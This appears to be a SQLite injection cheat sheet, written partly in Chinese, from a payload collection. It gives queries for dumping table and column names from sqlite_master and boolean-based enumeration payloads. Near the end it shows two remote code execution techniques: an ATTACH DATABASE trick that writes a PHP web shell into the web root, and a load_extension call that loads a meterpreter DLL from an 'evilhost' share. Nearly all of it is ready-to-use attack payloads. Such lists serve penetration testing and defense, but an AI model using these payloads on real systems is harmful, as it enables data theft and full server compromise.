 # SQLite Injection


## Integer/String based - 获取表名
```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```
使用 limit X+1 offset X, 提取所有表.

## Integer/String based - 获取列名
```
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

For a clean output
```
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

## Boolean - 表数量
```
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - 枚举表名
```
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - 提取 info
```
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## 使用SQLite命令执行远程命令 - Attach Database
```
ATTACH DATABASE ‘/var/www/lol.php’ AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES (‘<?system($_GET[‘cmd’]); ?>’);--
```

## 使用SQLite命令执行远程命令 - Load_extension
```
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```
注：默认情况下，此组件被禁用

## Thanks to
[Injecting SQLite database based application - Manish Kishan Tanwar](https://www.exploit-db.com/docs/41397.pdf)
